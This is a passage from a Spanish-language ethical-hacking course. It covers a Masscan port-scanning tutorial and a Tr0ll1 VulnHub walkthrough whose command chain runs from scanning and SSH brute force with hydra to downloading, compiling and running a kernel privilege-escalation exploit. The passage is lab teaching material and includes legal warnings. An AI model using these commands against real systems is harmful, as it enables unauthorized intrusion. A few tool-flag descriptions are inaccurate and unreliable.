- Si necesitas soporte moderno (TLS, proxies, IPv6 consistente en Windows), usa **Ncat** del proyecto Nmap. ([nmap.org][3])

---

### Fuentes consultadas

(Orden alfabético por herramienta)

- **Naabu Docs – Installing Naabu** (Go install, binarios, PATH). ([docs.projectdiscovery.io][5])
- **Naabu Docs – Usage & flags, recomendaciones de tasa/uso responsable.** ([docs.projectdiscovery.io][6])
- **Naabu GitHub README – características, libpcap, ejemplos `-p`, `-top-ports`, integración Nmap.** ([GitHub][1])
- **Ncat (Nmap Project) – Netcat moderno con TLS, proxy, IPv4/IPv6, binarios multiplataforma.** ([nmap.org][3])
- **OpenBSD nc(1) man page – usos: conexiones TCP/UDP, escaneo `-z`, banners, transferencia de archivos, pruebas manuales.** ([man.openbsd.org][4])
- **Ask Ubuntu – diferencias netcat-openbsd vs netcat-traditional (IPv6/proxy/sockets vs `-e` clásico; selección con update-alternatives).** ([Ask Ubuntu][7])

[1]: https://github.com/projectdiscovery/naabu "GitHub - projectdiscovery/naabu: A fast port scanner written in go with a focus on reliability and simplicity. Designed to be used in combination with other tools for attack surface discovery in bug bounties and pentests"
[2]: https://docs.projectdiscovery.io/tools/naabu/overview "Naabu Overview - ProjectDiscovery Documentation"
[3]: https://nmap.org/ncat/ "Ncat - Netcat for the 21st Century"
[4]: https://man.openbsd.org/nc "nc(1) - OpenBSD manual pages"
[5]: https://docs.projectdiscovery.io/tools/naabu/install "Installing Naabu - ProjectDiscovery Documentation"
[6]: https://docs.projectdiscovery.io/tools/naabu/usage "Naabu Usage - ProjectDiscovery Documentation"
[7]: https://askubuntu.com/questions/346869/what-are-the-differences-between-netcat-traditional-and-netcat-openbsd "What are the differences between netcat-traditional and netcat-openbsd? - Ask Ubuntu"

---

[🔼](#índice)

---

## **281. Escaneo de puertos ultrarrápido: Masscan**

### 🧠 ¿Qué es Masscan?

**Masscan** es una herramienta de código abierto para **escaneo de puertos TCP**, conocida por ser **extremadamente rápida**. De hecho, puede escanear **la totalidad del Internet IPv4 en menos de 6 minutos** (sí, 0.0.0.0 a 255.255.255.255).

#### 🔥 Características clave:

- Es más rápido que Nmap.
- Solo detecta **puertos abiertos** (no identifica servicios ni sistemas operativos).
- Se enfoca en **volumen y velocidad**, no en detalle.
- Muy útil para auditorías masivas, CTFs, y pentesting de red.

---

### 📦 Instalación de Masscan

#### 🔹 En Kali Linux, Ubuntu o Debian:

```bash
sudo apt update
sudo apt install masscan -y
```

#### 🔹 En Arch/Manjaro:

```bash
sudo pacman -S masscan
```

#### 🔹 En macOS (con Homebrew):

```bash
brew install masscan
```

#### 🔹 En Windows:

1. Ve a la página oficial: [https://github.com/robertdavidgraham/masscan](https://github.com/robertdavidgraham/masscan)
2. Descarga el ejecutable precompilado (o compílalo con MinGW).
3. Abre la consola `cmd` o PowerShell como administrador y usa el binario.

---

### ⚙️ Uso básico de Masscan

#### 🔹 Sintaxis general:

```bash
sudo masscan -p <puertos> <objetivo> --rate <velocidad>
```

- `-p <puertos>`: define los puertos a escanear (ej. 80 o 1-65535)
- `<objetivo>`: IP o rango
- `--rate`: paquetes por segundo (ej. 1000, 10000, 100000)

> ⚠️ Masscan puede saturar tu red. Usa velocidades más bajas si estás en una red doméstica.

---

### 🔬 Ejemplos simples

#### 🔹 1. Escanear el puerto 80 en una IP

```bash
sudo masscan -p80 192.168.1.10 --rate=1000
```

👉 Escanea solo el puerto 80 (HTTP) a una velocidad moderada.

---

#### 🔹 2. Escanear múltiples puertos

```bash
sudo masscan -p80,443,22 192.168.1.10 --rate=1000
```

Escanea puertos 22 (SSH), 80 (HTTP) y 443 (HTTPS).

---

#### 🔹 3. Escanear todos los puertos

```bash
sudo masscan -p1-65535 192.168.1.10 --rate=5000
```

Escaneo completo de puertos TCP. ⚠️ Puede tardar según la red y la velocidad.

---

#### 🔹 4. Escaneo a una red entera

```bash
sudo masscan -p80 192.168.1.0/24 --rate=500
```

Escanea el puerto 80 de toda la subred local (192.168.1.x).

---

#### 🔹 5. Guardar resultados en un archivo

```bash
sudo masscan -p80 192.168.1.0/24 --rate=500 -oG resultado.txt
```

Guarda el resultado en formato greppable.

---

### ✅ Ejemplo completo y explicado

#### 🎯 Escenario

Estás en una red local y quieres:

- Escanear **todos los puertos** TCP
- En toda una subred
- Guardar los resultados
- Usar una velocidad segura para red doméstica

---

#### 🔧 Comando final:

```bash
sudo masscan -p1-65535 192.168.0.0/24 --rate=1000 -oG escaneo_completo.txt
```

#### 🔍 Explicación de cada parte:

| Parte            | Función                                              |
| ---------------- | ---------------------------------------------------- |
| `-p1-65535`      | Escanea todos los puertos TCP                        |
| `192.168.0.0/24` | Apunta a toda la red local                           |
| `--rate=1000`    | Usa una velocidad segura para redes domésticas       |
| `-oG`            | Guarda los resultados en formato legible por humanos |

---

#### 📄 Resultado esperado (simplificado):

```txt
# Masscan 1.3.2 scan initiated ...
Host: 192.168.0.12 ()    Ports: 22/open/tcp//ssh///
Host: 192.168.0.15 ()    Ports: 80/open/tcp//http///
Host: 192.168.0.21 ()    Ports: 445/open/tcp//microsoft-ds///
```

Ahora puedes tomar estas IPs y usar Nmap para análisis más detallado:

```bash
nmap -A 192.168.0.12
```

---

### 🛠️ Personaliza más aún (avanzado)

- **Limitar la interfaz de red**:

  ```bash
  --interface eth0
  ```

- **Especificar IP origen (spoofing)**:

  ```bash
  --source-ip 192.168.0.100
  ```

- **Modo silencioso (menos consola)**:

  ```bash
  --output-format binary
  ```

---

### ⚠️ Advertencias y uso ético

- **No escanees redes públicas sin permiso**. Podrías generar alertas, ser bloqueado o incluso enfrentar consecuencias legales.
- Usa Masscan **en entornos controlados**, laboratorios, máquinas propias o con autorización explícita.

---

### 🧠 Resumen rápido

| Objetivo                   | Comando                                   |
| -------------------------- | ----------------------------------------- |
| Escanear puerto 80         | `masscan -p80 IP --rate=1000`             |
| Escanear todos los puertos | `masscan -p1-65535 IP --rate=5000`        |
| Escaneo a red local        | `masscan -p22 192.168.1.0/24 --rate=1000` |
| Guardar resultados         | `masscan ... -oG archivo.txt`             |

---

[🔼](#índice)

---

## **282. Resolución de la máquina Tr0ll1**

### 🔍 1. 🧭 Descubrimiento de IP

Configura tu red virtual en Modo _Bridged_ o _Host-only_. Luego, en Kali:

```bash
netdiscover -r 192.168.56.0/24
```

Resultará una IP nueva, por ejemplo `192.168.56.115` o similar. Esa será la víctima **Tr0ll 1**. ([Mohamed Ezzat][1], [Medium][2])

---

### 🛠️ 2. Escaneo con Nmap

Ejecuta un escaneo completo:

```bash
nmap -sC -sV -p- 192.168.56.115
```

Esto revela:

- **FTP (21)** con login **anonymous**
- **SSH (22)**
- **HTTP (80)** con Apache
- Un `/robots.txt` que señala a `/secret` ([InfoSec Write-ups][3], [Medium][2])

---

### 📂 3. FTP + PCAP oculta pistas

Accede por FTP:

```bash
ftp 192.168.56.115
# usuario: anonymous
# descarga:
get lol.pcap
```

Abre `lol.pcap` en Wireshark o con TCPDump; encuentras una referencia a un archivo `secret_stuff.txt` que menciona el directorio `sup3rs3cr3tdirlol`. ([Mohamed Ezzat][1])

---

### 🧪 4. Navegación web y descubrimiento con divsión de rutas

- Visita `http://<IP>/secret` → “trolled” (sin contenido real).
- Luego `http://<IP>/sup3rs3cr3tdirlol` → encuentras el archivo `roflmao`, descargable. ([Infosec Institute][4])

---

### 🔍 5. Análisis de `roflmao`

```bash
file roflmao
strings roflmao
```

Encuentras la línea: **"Find address 0x0856BF to proceed"**. Probando esa ruta:

```
http://<IP>/0x0856BF/
```

Se muestran dos carpetas:

- **good_luck/** → contiene `which_one_lol.txt` (lista de posibles usuarios).
- **this_folder_contains_the_password/** → contiene `Pass.txt`. ([Mohamed Ezzat][1])

Finalmente notas que **nombre del archivo (`Pass.txt`) es la contraseña**, no su contenido.&#x20;

---

### 🤖 6. Brute force SSH

Con `which_one_lol.txt` como usuarios y `Pass.txt` como contraseña real:

```bash
hydra -L which_one_lol.txt -p Pass.txt ssh://192.168.56.115
```

Resultado: se identifica que el usuario **overflow** con contraseña **Pass.txt** es válido. ([InfoSec Write-ups][3])

Conéctate por SSH y obtienes shell de usuario.

---

### 🧱 7. Escalada a root

Dentro del shell:

```bash
uname -a
```

Indica kernel vulnerable (e.g., 3.13.0). Usando `searchsploit` encontraste el exploit ID **37292** (CVE relacionado). Lo copias a la VM, compilas y ejecutas:

```bash
gcc 37292.c -o exploit
./exploit
id
```

Con éxito, ya estás como **root**. ([InfoSec Write-ups][3])

---

### 🎉 8. Flag de root

Como root:

```bash
cd /root
cat proof.txt
```

Obtienes la flag, por ejemplo `702a8c18d29c6f3ca0d99ef5712bfbdc`, completando el boot2root. ([InfoSec Write-ups][3])

---

### 🧭 Resumen del flujo

1. Netdiscover → IP objetivo
2. Nmap → FTP y HTTP `/secret`
3. FTP → descargas `lol.pcap`
4. Wireshark/tcpdump → ruta web oculta
5. Web → descarga `roflmao`, identifica ruta 0x0856BF
6. Web en 0x0856BF → obtienes listas de usuarios/contraseña
7. Hydra → credenciales SSH
8. SSH → shell como overflow
9. searchsploit → exploit 37292
10. gcc + exploit → root
11. `cat /root/proof.txt` → flag

---

### ✅ Ejemplo de comandos clave

```bash
# FTP
ftp 192.168.56.115
get lol.pcap

# Análisis de pcap
sudo apt install wireshark
wireshark lol.pcap

# Strings en roflmao
file roflmao
strings roflmao

# Hydra SSH
hydra -L which_one_lol.txt -p Pass.txt ssh://192.168.56.115

# Escalada a root
searchsploit linux kernel 3.13.0 privilege
searchsploit -m 37292
wget http://…/37292.c
gcc 37292.c -o exploit
./exploit

# Flag
sudo cat /root/proof.txt
```

---

### 📌 Consejos y aprendizajes

- Interacción entre varias técnicas: FTP, HTTP, pcap, Strings, SSH brute force, exploit local.
- No siempre la contraseña está embebida: aquí **el nombre del archivo**.
- Validación manual (strings + test de ruta HTTP) fue más efectiva que ingeniería inversa binaria.
- Tiene trolls intencionales: `robots.txt` sin contenido real, páginas HTML vacías, cron jobs que eliminan tu sesión… ¡no te frustres! ([Infosec Institute][4], [Medium][2], [Mohamed Ezzat][1], [InfoSec Write-ups][3])

---

[1]: https://mohamedaezzat.github.io/posts/troll1/?utm_source=chatgpt.com "Tr0ll 1 Vulnhub Walkthrough - Mohamed Ezzat"
[2]: https://medium.com/%40hackermentor/vulnhub-troll-1-walkthrough-39b655bc70f2?utm_source=chatgpt.com "Vulnhub: Troll 1 — Walkthrough - Medium"
[3]: https://infosecwriteups.com/vulnhub-tr0ll-1-writeup-oscp-prep-by-dollarboysushil-657cf3453ba2?utm_source=chatgpt.com "Vulnhub: Tr0ll 1 Writeup (OSCP PREP) [by dollarboysushil]"
[4]: https://www.infosecinstitute.com/resources/penetration-testing/vulnhub-machines-walkthrough-series-tr0ll-1/?utm_source=chatgpt.com "Vulnhub machines walkthrough series — Tr0ll: 1 - Infosec"

---

[🔼](#índice)

---

| **Inicio**         | **Siguiente 2**                                           |
| ------------------ | --------------------------------------------------------- |
| [🏠](../README.md) | [⏩](./5_2_Hacking_Etico_en_Entornos_Active_Directory.md) |
